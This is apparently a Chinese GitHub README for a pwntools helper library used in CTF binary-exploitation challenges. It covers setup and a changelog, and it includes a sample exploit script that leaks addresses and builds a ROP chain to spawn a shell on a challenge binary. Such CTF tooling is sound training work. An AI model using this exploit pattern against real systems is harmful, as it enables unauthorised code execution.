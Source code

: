 # pwn_all_in_one

## 背景

每次写pwn题的时候，都需要使用到重复的模板，个人感觉非常的占位置，所以继承了一个pwntools.py的文件

每次写题目的时候只需要`from pwntools import *`就可以开始快速写题，而无需注意到某些烦人的代码片段

## 使用

本脚本是基于Python3的pwntools，使用到了一些Python3独有的f-string之类的东西，所以Python2的pwner可能无法使用，得自己改改

使用方法非常的简单, 把下面的pwntools.py放到`~/.local/lib/python3.X/site-packages`, Python默认导包的路径就行了

随便写了一个脚本用例来参考一下

- 如果是打本地, 直接`python3 exp.py`就可以进行本地运行了
- 如果是打远程, 使用`python3 exp.py 114.51.41.91:11451` 或者 `python3 exp.py 114.51.41.91 11451` 就可以自动打远程

当然远程ip还可以在`init`函数中设置, 或者在执行init函数之前设置`pwnio`对象的`ip`和`port`属性

```python
from pwntools import *

init("./buffer_fly")    # 调用init函数,每次只需要调用这个就可以开始写题了,必要的参数是文件名！

sla("name", "")

ru("your name:")
rl()

close_plt = pwnio.elf.plt["close"]    # 注意要调用pwnio这个类中的elf,也可以使用pwnio["elf"].plt["close"]

true_close_plt = i16(hex(uu64(ru("\n"))) + "0a") - 10
info(true_close_plt)
base = true_close_plt - (0x55765683C100 - 0x55765683B000)
info(base)

pop_rdi_ret = 0x0000000000001423 + base
ret = 0x000000000000101A + base

sa("age", b"/bin/sh|")
ru("your age:")
stack = l64()   # l64是一个封装好的接受\x7f开头的64位地址

info(f"stack --> {hex(stack)}")

bin_sh = stack + (0x7FFC4757AF40 - 0x7FFC4757B060)
back_door = base + 0x129D

payload = (
    b"sh 0>&2 ".ljust(0x28, b"a")
    + p64(pop_rdi_ret)
    + p64(bin_sh)
    + p64(back_door)
    + p64(0)
)

dbg()   # 调用gdb.attach, 如果是远程, 那么就不会执行

sa("number", payload)
sl("sh 1>&2")

ia()    # 交互
```

## 更新日志
- 2022.9.4
  - 配置了部分常用函数
- 2022.9.22
  - 默认使用wsl2 ubuntu进行debug， 若要自己使用自己的终端调试配置，在init函数中第四个参数terminal_args中添加
- 2022.9.25
  - 修复了静态文件加载会爆libc无效错误的异常
  - 添加了一个timeout模块，用来进行自定义事件的pwn
  - 更新了init函数，添加了自定义ip和port的功能，同时保留了命令行输入ip和port的功能
- 2022.10.1
  - 重构了init模块
  - 将所有的全局变量转为pwnio类中的成员变量，方便其他文件导入模块时更改
  - 删除了部分不必要的函数
  - 优化了dbg()函数，远程将不会开启gdb调试
  - 更新了open_dbg()和close_dbg()
  - 规范了函数注释
- 2022.10.31
  - 优化了pwnio，使用了Python的面向对象
  - 目前调用pwnio对象的属性可以通过`.`的方式调用，也可以使用`[]`的方式调用
  - 新添加一个均分列表的方法
- 2022.11.19
  - 新增`libcpatcher.py`文件，基于patchelf一键修改elf文件的libc
  - 新增了leak函数，使用leak获取地址的同时在控制台打印泄露的地址
  - 更新了i16和i10函数，可以传入bytes或者str类型
  - 修改默认开启过滤 `Text is not bytes` 的警告